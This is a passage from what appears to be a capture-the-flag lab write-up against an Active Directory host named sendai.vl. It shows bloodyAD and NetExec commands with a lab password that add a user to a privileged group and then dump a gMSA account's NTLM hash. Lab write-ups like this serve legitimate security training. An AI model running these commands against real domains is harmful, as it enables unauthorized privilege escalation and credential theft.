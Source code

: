 
> Notice that we have generic all rights to a group named ADMSVC
> 

So let’s go and add ourself to the group

```bash
bloodyAD --host "10.10.109.249" -d sendai.vl -u 'Elliot.Yates' -p 'remo123$' add groupMember "ADMSVC" "Elliot.Yates"
```

![image.png](../images/sendai%2012.png)

Now let’s go and see what ADMSVC group can do

![image.png](../images/sendai%2013.png)

> Notice that the users in ADMSVC group can read the gMSA password of the user MGTSVC$
> 

So let’s go and retrieve the  NTLM hash of the user MGTSVC$

```bash
nxc ldap sendai.vl -u Elliot.Yates -p 'remo123$' --gmsa
```

![image.png](../images/sendai%2014.png)
